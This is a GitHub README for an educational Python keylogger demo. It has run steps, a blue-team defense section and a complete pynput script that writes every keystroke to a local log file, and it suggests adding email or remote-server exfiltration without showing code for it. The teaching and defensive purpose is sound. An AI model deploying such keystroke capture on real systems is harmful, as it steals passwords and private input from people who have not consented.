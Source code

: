 [Keylogger_Attack_Demo_README.txt](https://github.com/user-attachments/files/20854654/Keylogger_Attack_Demo_README.txt)

Keylogger Attack Demo (Python)
==============================

* Overview
-----------
This project is a simple Python-based keylogger created for ethical hacking demonstrations, red team simulations, and cybersecurity education. It captures keyboard inputs and saves them to a log file for analysis.

 Legal Disclaimer: This project is intended for educational purposes only. Unauthorized access or use of keyloggers is illegal and unethical.

* Objective
------------
- Demonstrate how keyloggers can be used in attacks.
- Understand how attackers deploy keyloggers.
- Learn how to defend against keylogging threats.

* Requirements
---------------
- Python 3.x
- pynput library (pip install pynput)

* How to Run (Attack Demo)
---------------------------
* For Local Testing / Red Team Demo Only!

1. Clone the repository
   git clone https://github.com/yourusername/keylogger-attack-demo.git
   cd keylogger-attack-demo

2. Install dependencies
   pip install pynput

3. Run the keylogger
   python keylogger.py

4. Observe output
   - Keystrokes are saved in a file named 'key_log.txt'.

5. (Optional) Modify script to send logs via email or remote server (educational purposes only).

* Defense Strategy (Blue Team)
------------------------------
1. Detect Keyloggers
- Use antivirus software or endpoint detection and response (EDR) tools.
- Check for suspicious Python processes running in Task Manager.
- Monitor abnormal file changes or logging behavior.

2. Prevent Keylogger Installation
- Keep OS and software updated.
- Avoid downloading scripts or files from untrusted sources.
- Restrict user permissions and enforce application whitelisting.

3. Block Keylogger Execution
- Use firewalls or group policies to block unknown scripts.
- Disable script execution from temp folders.

4. Respond to an Infection
- Quarantine and remove malicious scripts.
- Rotate passwords immediately.
- Check systems for data exfiltration (e.g., FTP, SMTP traffic).

Example Code (keylogger.py)
-------------------------------
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    with open(log_file, "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f"[{key}]")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()

Learning Outcomes
--------------------
- Understand how a basic keylogger works.
- Recognize potential entry points attackers might exploit.
- Build defenses against keylogging-based threats.

Resources
------------
- Python Keylogging: https://pynput.readthedocs.io
Warning
----------
This project must never be used on unauthorized systems or without informed consent. Doing so is a criminal offense in many jurisdictions.

